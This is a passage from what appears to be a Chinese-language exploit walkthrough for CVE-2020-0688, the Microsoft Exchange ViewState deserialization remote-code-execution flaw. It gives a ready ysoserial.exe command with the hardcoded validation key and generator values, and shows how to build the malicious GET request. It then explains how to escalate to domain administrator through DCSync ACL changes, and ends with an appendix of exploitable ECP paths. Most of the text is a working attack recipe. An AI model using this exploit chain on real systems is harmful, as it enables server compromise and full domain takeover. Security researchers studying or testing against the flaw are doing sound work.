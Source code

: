 `__VIEWSTATEGENERATOR`在`/ecp/default.aspx`的前端页面里面直接获取：

![](./resource/(CVE-2020-0688)MicrosoftExchange远程命令执行漏洞/media/rId25.png)

当拥有了`validationkey`,`validationalg`,`viewstateuserkey`,`__VIEWSTATEGENERATOR`，使用YSoSerial.net生成序列化后的恶意的ViewState数据：

    ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc.exe" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="2fdc8b0d-dcfb-4d0a-b464-95b9a2dcc968" --isdebug –-islegacy

![](./resource/(CVE-2020-0688)MicrosoftExchange远程命令执行漏洞/media/rId26.png)

构造以下URL，使用生成的payload替换，使用上面所说的value值替换，最后用GET请求发送给服务器即可。

    http://www.0-sec.org/ecp/default.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState>

![](./resource/(CVE-2020-0688)MicrosoftExchange远程命令执行漏洞/media/rId27.png)

收到dns请求

![](./resource/(CVE-2020-0688)MicrosoftExchange远程命令执行漏洞/media/rId28.png)

由于Exchange
Server的机器用户具备SYSTEM权限，默认在域内拥有WriteAcl的权限，因此，可以通过修改ACL的`DS-Replication-Get-Changes`和`DS-Replication-Get-Changes-All`来赋予任何一个用户Dcsync的权限，所以这个漏洞的最大危害在于：在域内拥有一个普通用户权限的情况下，通过Exchange
Server上以system用户的身份执行任意的命令，再利用Exchange
Server的WriteAcl权限，从而达到域管权限。

### 附录

经过简单测试，已知可利用路径：

    /ecp/default.aspx
    __VIEWSTATEGENERATOR=B97B4E27

    /ecp/PersonalSettings/HomePage.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=1D01FD4E

    /ecp/PersonalSettings/HomePage.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=1D01FD4E

    /ecp/Organize/AutomaticReplies.slab?showhelp=false&
    __VIEWSTATEGENERATOR=FD338EE0

    /ecp/RulesEditor/InboxRules.slab?showhelp=false&
    __VIEWSTATEGENERATOR=FD338EE0

    /ecp/Organize/DeliveryReports.slab?showhelp=false&
    __VIEWSTATEGENERATOR=FD338EE0

    /ecp/MyGroups/PersonalGroups.aspx?showhelp=false&
    __VIEWSTATEGENERATOR=A767F62B

    /ecp/MyGroups/ViewDistributionGroup.aspx?pwmcid=1&id=38f4bec5-704f-4272-a654-95d53150e2ae&ReturnObjectType=1
    __VIEWSTATEGENERATOR=321473B8
